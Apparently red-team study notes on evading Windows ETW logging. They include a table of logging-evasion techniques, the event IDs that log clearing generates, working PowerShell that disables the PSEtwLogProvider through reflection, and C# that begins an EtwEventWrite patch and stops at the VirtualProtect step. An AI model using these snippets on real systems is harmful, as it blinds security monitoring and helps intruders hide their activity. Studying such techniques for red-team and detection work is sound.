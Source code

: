 
In Windows, nearly all event logging is done by **ETW** (Event Tracing for Windows).
The general method these events are logged are:
```
Device --> Event collector/forwarder --> Data Indexer --> SIEM Server
```

ETW is made up of three main parts:

| Component | Function | Exploit techniques |
| ---- | ---- | ---- |
| Provider | A program with logging tools. After a provider registers, the Controller can enable it, (usually) starting logging. (in some cases, it will log whether it is enabled or not, because the Provider can decide what "enabled" and "disabled" mean for itself.) | PSEtwLogProvider Modification, Group Policy Takeover, Log Pipeline Abuse, Type Creation |
| Controller | Control the starting and stoping of the logging sessions, the location and size of the log files, enable providers to log to the session, obtain execution statistics for sessions. | Patching EtwEventWrite, Runtime Tracing Tampering, |
| Consumers | The tool used to interpret events, usually Microsoft's Event Viewer | Log Smashing, Log Tampering |



#### Aggresive approach - log smashing
Generally, Windows logs can be removed or destroyed. For this approach to work when red teaming, they need to be destroyed before they are (potentially) forwarded to a SIEM server.
The big drawback to this approach is that the action removing logs will generate logs, meaning the SOC team will be able to see the logs were tampered with.
##### Created events
| ID | event |
| ---- | ---- |
| 1102 | The Windows Security Audit log was cleared |
| 104 | The time when the log file was cleared |
| 1100 | The time when the Windows Event Log service was shut down |

### Powershell 
When powershell starts, a `.net` assembly provider pack `PSEtwLogProvider` is loaded. The `.net` assembly provider packs are basically `.net` DLLs.
Because the permissions powershell is loaded with are the same as most permissoins of the `.net` assembly provider packs are loaded with, the same user who spawned the powershell session can disable the providers.
To do this, `m_enabled` needs to be set to `$null`, in three steps:
- Obtain the `.NET` assembly for the `PSEtwLogProvider`
```powershell
$logProvider = [Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider')
```
- Store a null value for the `etwProvider` field
  ```powershell
$etwProvider = $logProvider.GetField('etwProvider','NonPublic,Static').GetValue($null)
```
- Set the field for `m_enabled` to the previously stored `$null`
  ```powershell
[System.Diagnostics.Eventing.EventProvider].GetField('m_enabled','NonPublic,Instance').SetValue($etwProvider,0);
```

### Patching tracing functions
When any process is created, the ETW is loaded (usually from the Common Language Runtime). Within the process, ETW events will be sent and issued from the current process.
If an "early return" is patched into the main ETW function of the process, it can be disabled. 

At a high level, ETW patching follows these steps:
- Obtain a handle for `EtwEventWrite`
The `EtwEventWrite` function is stored in `ntdll`.  To get this, the `LoadLibrary` function needs to be used to load `ntdll`, and the `GetProcAddress` can be used to get the handle.
```csharp
var ntdll = Win32.LoadLibrary("ntdll.dll");
var etwFunction = Win32.GetProcAddress(ntdll, "EtwEventWrite");
```

- Modify memory permissions of the function
  To access the target memory, it needs to be writable. For this, it needs to be loaded using `Virtualprotect`, with the `0x40` (RWX) permissions set:
```csharp
uint oldProtect;
Win32.VirtualProtect(
	etwFunction, 
	(UIntPtr)patch.Length, 
	0x40, 
	out oldProtect
);
```
